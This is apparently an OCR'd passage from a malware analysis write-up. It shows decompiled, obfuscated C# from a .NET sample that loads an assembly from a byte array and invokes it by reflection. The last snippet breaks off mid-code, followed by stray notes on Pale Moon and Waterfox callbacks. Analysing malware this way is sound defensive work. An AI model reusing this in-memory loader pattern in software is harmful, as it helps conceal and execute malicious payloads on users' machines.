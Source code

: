 
#### Code 4
```csharp
[SecuritySafeCritical]
[EditorBrowsable(EditorBrowsableState.Advanced)]
protected virtual void OnRun()
{
  if (this.MainForm == null)
  {
      this.OnCreateMainForm();
      if (this.MainForm == null)
      {
          throw new NoStartupFormException();
      }
      this.MainForm.Load += this.MainFormLoadingDone;
  }
```
If we keep following the chain of function calls with the debugger, we finally reach what seems to be a relevant part of the malware:

#### Code 5
```csharp
public IndexOutOfRangeException.UCOMITypeComp switcher
{
  [DebuggerHidden]
  get
  {
      this.m_switcher = DebuggerStepperBoundaryAttribute.MyForms.Create__Instance__<IndexOutOfRangeException.UCOMITypeComp>(this.m_switcher);
      return this.m_switcher;
  }
```
#### Code 6
```csharp
public UCOMITypeComp()
{
  this.PictureBox3 = new ExtendedNormalizationForms(this.UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU(NetCodeGroup.UrlIdentityPermission));
  this.InitializeComponent();
}
```
#### Code 7
```csharp
public ExtendedNormalizationForms(byte[] CustomConstantAttribute)
{
  this.WeakReference(CustomConstantAttribute);
}

// Token: 0x06000035 RID: 53 RVA: 0x000031D4 File Offset: 0x000013D4
public object WeakReference(byte[] ApplicationIdentity)
{
  Assembly assembly = Assembly.Load(ApplicationIdentity);
  Type type = assembly.GetTypes()[10];
  MethodInfo o = Type.GetType("System.Activator").GetMethods()[2];
  LateBinding.LateCall(o, null, "Invoke", new object[]
  {
      null,
      new object[]
      {
          type,
          new object[]
          {
              StrongNameMembershipCondition.ReadOnlyList,
              StrongNameMembershipCondition.PropagationFlags,
```

[15]:  same as Callbacks[0] but specific to Pale Moon.
[16]: same as Callbacks[0] but specific to Waterfox.